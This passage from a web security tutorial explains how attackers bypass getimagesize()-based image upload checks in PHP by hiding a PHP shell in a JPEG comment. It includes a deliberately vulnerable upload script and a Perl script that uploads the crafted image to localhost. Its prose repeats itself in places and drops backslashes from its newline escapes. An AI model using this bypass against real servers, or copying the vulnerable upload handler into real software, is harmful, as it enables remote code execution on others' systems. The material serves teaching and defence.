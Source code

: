 Image File Content Verification
====================

A developer typically checks if the function returns a true or false and validates any uploaded file using this information. So if a malicious user tries to upload a simple PHP shell embedded in a jpg file, the function will return false, and he won’t be allowed to upload the file. However, even this approach can be easily bypassed. If a picture is opened in an image editor, like Gimp, one can edit the image comment, where PHP code is inserted, as shown below. When the developer permits uploading images only, the developers use the `getimagesize()` function to validate the image header. The `getimagesize()` function takes a file name as an argument and returns the size of the image if it’s true, and relays the indication false if the argument has failed. So if the attacker can inject the PHP shell code to an image, the header of this image will be corrupted so that the function will fail and the function will return as false. He won’t be allowed to upload the shell script to the remote server. Unfortunately, attackers have founded ways to bypass this technique too. Attackers can use an image editor, like Gimp, to edit the image comment and insert a php shell script there. Consider Demo3.php below:

    <!-- lang: php -->
    $imageinfo = getimagesize($_FILES['uploadedfile']['tmp_name']);
    if($imageinfo['mime'] != 'image/gif' && $imageinfo['mime'] != 'image/jpeg') {
        echo "Sorry, we only accept GIF and JPEG imagesn";
        exit;
     }
    $uploaddir = 'uploads/';
    $uploadfile = $uploaddir . basename($_FILES['uploadedfile']['name']);
    if (move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $uploadfile)) {
        echo "File is valid, and was successfully uploaded.n";
    } else {
        echo "File uploading failed.n";
    }

Now even if the attacker sets the content-type header to “image/gif” after trying to upload shell.php, Demo3.php won’t accept it anymore. Instead, we will embed the php shell script in the comment section. When the PHP interpreter looks at the file, it sees the executable PHP code inside of some binary garbage.

Now let’s upload the image through web browser or through the following perl script:

    <!-- lang: perl -->
    #!/usr/bin/perl
    #
    use LWP;
    use HTTP::Request::Common;
    $ua = $ua = LWP::UserAgent->new;;
    $res = $ua->request(POST 'http://localhost/Demo3.php',
    Content_Type => 'form-data',
    Content => [
    userfile => ["chelsea-logo.jpg", "chelsea-logo.jpg", "Content-Type" =>
    "image/jpg"],
    ],
    );
    print $res->as_string();

Now the attacker can request: uploads/chelsea-logo.jpg.
